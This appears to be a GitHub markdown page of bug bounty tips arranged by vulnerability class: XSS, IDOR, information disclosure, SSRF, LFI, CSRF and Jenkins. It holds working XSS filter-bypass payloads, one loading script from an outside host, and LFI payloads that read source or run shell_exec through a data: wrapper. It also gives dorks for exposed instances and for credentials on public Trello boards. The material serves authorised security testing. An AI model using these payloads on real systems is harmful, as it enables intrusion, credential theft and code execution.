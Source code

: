 # Bug Bounty Tips

### XSS
- I love it when a site creates a filter to 'try' prevent something like XSS (or even certain file extensions from being uploaded:D). In this case, [xss filter bypass: </script><%0dscript%20src=\http://mysite.com/yay.js>](https://www.bugbountynotes.com/forum/viewpost?id=100)
- Have you ever come across an issue, where you could pop XSS but parenthesis () gets filtered ? this payload ``onfocus="alert`1`"autofocus=`` will bypass that problem.
- "URL-encoding payload symbols" AND "The fragment(`#`) isn’t sent to the server - this means that no server-side firewall can see it, so it cannot stop attacks coming from this direction."
  - `https://www.bugbountytraining.com/challenges/challenge-10.php#?message=%3Cimg%20src%3Ddumm%20onerror%3Dalert(%22xss%22)%3E`
  - `https://www.bugbountytraining.com/challenges/challenge-10.php?message=#%3Cimg%20src%3Ddumm%20onerror%3Dalert(%22xss%22)%3E`
- The obstacle was to made the JavaScript code execute without error (the browser stops script execution on the first error).
  - ``http://try.harisec.com/chals/qli/?q=testing\&format=});alert(1);a=function(){`;%3C!--``
  - ```
  <script type="text/javascript">
    function init() {
      $(document).ready(function () {
        logTrackingData({searchType:"simple",query:"testing\",format:"});alert(1);a=function(){`;&lt;!--",pageId:"12345",pageNo:"1",searchCategory:"210",suggestions:"",results:""});
      })
    }
  </script>
    ```
  - The value of the q parameter was properly encoded. The only exception was the forward slash character that was not encoded/escaped.
- If you open the url in the browser and see nothing but blank page, do not assume there is nothing there.
  - ALWAYS check the source code. There might be a bunch of JavaScript or e.g. some commented source code from server.
- ALWAYS check the full response on any request. Errors can sometimes give u the keys to the kingdom if u actually figure out what ur looking at witin the error response.

### IDOR

- When you're looking at an asset that may use a microservices architecture, look for IDOR vulnerabilities using path traversal. E.g. `https://example/?id=1/../2`.
  - The authorization check may pass because the user is allowed to see resource 1 and the system ignores /../2 in the authorization layer. This could work because some microservice architectures use HTTP to transport messages.
  - When one of the microservices implemented an HTTP endpoint like "/resource/:id" and it trusts the message from the sender, you may end up requesting "/resource/1/../2", which resolves to "/resource/2", given you access to an object you may not be authorized to see.
  - Yeah, I have encountered several issues of this type. like `https://example/?id=1/.../..../..../id=2` but never ended up in path traversal vulnerabilities.

### Information Disclosure

- Want to find some internal code of companies or some sample codes of new features? Checkout with: `site:http://repl.it  intext:<companydomain>`. In companydomain, if you know the internal domain it is even better.
  - `site:http://gist.github.com`
- Search for public Trello boards of companies, to find login credentials, API keys, etc. Or if you aren't lucky enough, then you may find companies' Team Boards sometimes with tasks to fix security vulnerabilities.

### SSRF

- a = Find fixed SSRF. b = Find open redirection in whitelisted domains. C = Amazon Aws metadata API.
  - a+b+C = Boom.

### LFI

- When lfi doesnt work to get `/etc/passwd` for example, you can always try to get source code disclosure by using the function of php://filter: `php://filter/convert.base64-encode/resource=index`
- When you came up with a file= parameter before trying for other rfi see phpinfo page is accessible or not you might get some juicy information. e.g.`file=data:text/plain, <?php phpinfo(); ?>`
  - Why prefer phpinfo() when you can `data:text/plain, <?php echo shell_exec("ls"); ?>`? (in both cases, allow_url_include=1).
  
### CSRF

- When testing for CSRF, send the POST parameters using GET method, eg: `GET /[post endpoint]?postprm1=value&postprm2=value2`. You will be surprised how many developers forget to add csrf protection on GET methods of the same endpoints.
  
### Higher Privilege

- If a website does not verify email, try signing up with <whatev>@domain.com (the company email). Sometimes this gives you higher privilege like deleting/viewing any other user's profiles etc.
  
### Hiden Endpoints

- A redirect to SSO does not always mean that every endpoints are behind the SSO. Specially if it is a popular instance like JIRA, Confluence etc, check to see if you can still hit endpoints like search sections, filters etc.

### Jenkins

- Sometime an open Jenkins dashboard can be as critical as below finding. A Shodan query to list all such publically accessible Jenkins Instance: `https://www.shodan.io/search?query=x-jenkins+200`
- sometimes you find those PATHs that forwards to a login page & you can't see the content inside them (ex: `/path/to/secret` --> Google login).
  - Take all these PATHs, prepend `/public/` to all of them as: `/public/path/to/secret`, got access to a Jenkins instance.

### HTTP Methods

- If server only allows GET and POST method, then try adding "X-HTTP-Method -Override: PUT to achieve RCE via PUT method.

### TOOLS
  
- Don't forget the google dorks, sometimes when you can't find nothing, let google find something for you. Check [this list of advanced google dorks](https://pastebin.com/zYPZNbMK) and use them.
  - Use of Google dorks and the site operator is a good way to identify vulnerable apps on sites with bounty. The inurl:/OA_HTML to get [unpatched instances with XSS or SQLi](https://the-infosec.com/2018/11/06/oracle-ebs-security-auditing/) is one of them.
  - To discover domains deployed on Github for subdomain takeover, following google dork can be used :- intext:"There isn't a Github Pages site here" and intitle:"Site not found · GitHub Pages"
- Debugging Javascript can yield gold. You can edit source files directly by enabling "Local Overides" in Chrome. Changes made will persist, even after you refresh the page! 
